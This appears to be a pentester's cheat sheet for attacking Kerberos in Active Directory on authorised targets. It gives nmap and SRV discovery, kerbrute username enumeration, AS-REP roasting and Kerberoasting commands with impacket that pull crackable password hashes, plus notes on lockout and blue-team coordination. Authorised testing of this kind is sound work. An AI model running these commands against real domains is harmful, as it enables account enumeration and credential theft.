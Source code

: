 # Kerberos (88) — Deep Dive (Authorized targets only)

## Discovery
nmap -p 88 -sU -sV -oA kerberos_scan_<IP> <IP>

## Identify KDC / Realm (AD)
nslookup -type=SRV _kerberos._tcp.<domain>
nslookup -type=SRV _kerberos._udp.<domain>

## Username enumeration (lockout-aware; get approval)
# kerbrute userenum --dc <DC_IP> -d <DOMAIN> users.txt

## AS-REP roast (accounts without preauth) — read-only credential research
# impacket-GetNPUsers <DOMAIN>/ -dc-ip <DC_IP> -usersfile users.txt -format hashcat -outputfile asreproast_<DOMAIN>.txt

## SPN discovery (for later constrained attacks, within scope)
# impacket-GetUserSPNs <DOMAIN>/<USER>:<PASS> -dc-ip <DC_IP> -request -outputfile spns_<DOMAIN>.csv

## Notes
- Coordinate attempts with blue team; respect account lockout policies.
- Treat any recovered material as highly sensitive; follow handling policy.
